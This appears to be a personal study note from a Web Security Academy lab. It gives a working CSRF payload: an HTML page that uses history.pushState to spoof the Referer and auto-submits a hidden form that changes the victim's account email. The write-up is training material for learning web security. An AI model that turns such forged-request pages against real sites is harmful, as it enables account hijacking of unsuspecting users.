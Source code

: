 Note:
	`/?` - this represents a domain query parameter 
	![[Pasted image 20240925185342.png]]

- Payload(using the query parameter we append the valid part of the referer to our url in order to match the original one by the backend):
```html
<html>
    <body>
    
        <script>
	        history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')
        </script>
        
        <h1>Hello World!</h1>
        
        <form action="https://0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>
	        document.getElementById("csrf-form").submit()
	    </script>
	    
    </body>
</html>
```
